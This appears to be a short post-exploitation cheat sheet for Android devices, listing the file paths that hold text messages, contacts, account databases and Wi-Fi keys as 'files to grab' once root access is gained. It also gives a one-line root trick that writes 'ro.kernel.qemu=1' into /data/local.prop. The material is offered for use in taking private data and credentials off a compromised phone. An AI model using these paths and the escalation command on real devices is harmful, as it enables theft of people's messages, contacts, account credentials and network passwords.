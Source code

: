 # Android

##Files to grab

###Text Messages (Needs Root):

```
/data/data/com.android.providers/telephony/databases/mmssms.db
```

###Contacts (Needs Root):

```
/data/data/android.providers.contacts/databases
```

###Accounts (Needs Root):

```
/data/system/users/0/accounts.db
/data/system/accounts.db
```

###Wifi Keys (Needs Root):

```
/data/misc/wifi/wpa_supplicant.conf
```

###Local System Settings:

```
/data/local.prop
```

If you can write to this file the following line will grant root:

```
echo "ro.kernel.qemu=1" > /data/local.prop
```

###Device Settings:

```
/system/build.prop
```

